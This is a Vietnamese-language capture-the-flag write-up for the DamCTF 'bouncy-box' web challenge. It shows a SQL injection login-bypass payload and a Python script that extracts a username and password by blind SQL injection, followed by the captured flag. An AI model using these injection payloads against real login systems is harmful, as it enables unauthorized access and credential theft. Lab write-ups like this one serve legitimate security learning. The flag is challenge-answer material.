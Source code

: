 ![Image](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/1.png)
</br>
Tôi phát hiện trang web này có chức năng đăng nhập
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/2.png)
Ở form đăng nhập này bị lỗi SQL injection, với payload `trung' or '1'='1'-- -`  nhập vào ô username, tôi dễ dàng vượt qua cơ chế xác thực và xuất hiện nút button `Free flag`
khi ấn vào thì xuất hiện form đăng nhập lần nữa, có vẻ form này không bị lỗi SQL injection, tôi nghĩ chúng ta sẽ lợi form đăng nhập thứ nhất để dò tìm username password để đăng nhập
vào form đăng nhập thứ 2
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/3.png)
</br>

cách giải của tôi
```import requests, string
s = requests.session()

url = 'https://bouncy-box.chals.damctf.xyz/login'

arr = ',' + string.printable

def blind_row(column,step):
    for char in arr:
        res = s.post(url,json={"username":f"admin' or ascii(substr((select {column} from users limit 1),{step},1))={ord(char)}-- -",
        "password":"admin","score":0}).status_code
        if res==200:
            return char
    return None
 
def rows(column):
    row = ''
    step = len(row) +1
    while True:
        char = blind_row(column,step)
        if char == None:
            return row
        row += char
        step += 1
        print('[+] %s = '%column,row)  

username = rows('username')
password = rows('password')

flag = s.post('https://bouncy-box.chals.damctf.xyz/flag',data={'username_input':username,'password_input':password}).text
print(flag)
# dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}
```
[source đầy đủ ở đây](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/web1.py)
